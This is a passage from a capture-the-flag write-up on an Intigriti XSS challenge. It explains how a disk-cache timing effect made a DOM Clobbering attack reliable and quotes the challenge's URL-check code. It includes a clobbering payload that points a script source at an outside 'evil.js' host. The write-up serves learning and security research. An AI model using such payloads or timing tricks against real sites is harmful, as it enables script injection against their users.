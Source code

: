 In the last section, I talked about how I thought the back/forward cache was the secret sauce making all that magic happen with the DOM Clobbering. Well, plot twist: it turns out I was mistaken.

I shared my solution and reasoning with Jorian ([@J0R1AN](https://x.com/J0R1AN)) for a discussion, and he pointed out that bfcache wasn't involved at all.

![](/img/intigriti-0525-writeup/jorian.png)

Sure enough, if you navigate to Chrome DevTools and check the "Back/forward cache" section (under the Application tab), you'll see that the page was indeed flagged as "Not served from back/forward cache."

![](/img/intigriti-0525-writeup/bfcache.png)

So, what was the real trick? It seems my method forced the `/message` response into the **disk cache**. When the browser navigated back, the page reloaded (no bfcache involved!). This time, however, the `/message` request was served from the disk.

![](/img/intigriti-0525-writeup/diskcache.png)

This ultra-fast response from the disk cache is key. It meant the main JavaScript thread didn't have a chance to go idle *before* our DOM Clobbering payload was in place. Consequently, when `requestIdleCallback(addDynamicScript)` finally executed, our clobbered `window.CONFIG_SRC` was ready and waiting! This explains why the exploit worked reliably despite not using bfcache.

I've definitely put this on my list for a deeper dive to fully understand the mechanics of this method. This behavior could be an amazing gadget for DOM Clobbering. Many times, global objects or configurations (like our `window.CONFIG_SRC`) are checked by scripts *before* an HTML injection (and thus clobbering) has had a chance to run. You see this pattern often with analytics scripts, single-page application frameworks (React, Vue, etc.), and other dynamically loaded resources.

If this kind of timing manipulation and caching Voodoo sounds interesting and you'd like to collaborate on exploring it further, please reach out!

# Bypassing the `safeURL`

At this point, you might think the challenge is done. We could use a payload like `<div id=CONFIG_SRC data-url=//vitorfalcao.com/evil.js>`, trigger the DOM Clobbering, and then achieve XSS by loading the script from `vitorfalcao.com/evil.js`. Well, we're almost there, but not quite.

If you examine the challenge's code closely, you'll notice that the `addDynamicScript` function includes a check to see if the URL it's about to use as the script source is "safe." Let's revisit that code, this time including the `safeURL` function:

```js
function safeURL(url) {
    let normalizedURL = new URL(url, location)
    return normalizedURL.origin === location.origin
}

function addDynamicScript() {
    const src = window.CONFIG_SRC?.dataset["url"] || location.origin + "/confetti.js"
    if (safeURL(src)) {
        const script = document.createElement('script');
        script.src = new URL(src);
        document.head.appendChild(script);
    }
}
```

